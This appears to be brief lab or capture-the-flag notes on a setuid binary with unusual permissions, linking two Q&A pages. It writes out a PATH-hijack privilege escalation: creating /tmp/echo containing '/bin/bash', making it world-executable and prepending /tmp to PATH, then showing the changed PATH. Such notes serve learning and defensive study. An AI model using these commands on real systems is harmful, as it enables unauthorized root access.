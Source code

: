 https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code

https://askubuntu.com/questions/857066/meaning-of-the-access-permissions-rws-and-root-root-of-usr-bin-sudo

File has a weird CHMOD.

Security threat, can replace env variable

`echo "/bin/bash" > /tmp/echo`

`chmod 777 /tmp/echo && export PATH=/tmp:$PATH`

Do command `env` and see path went from:

PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games

to 

PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games

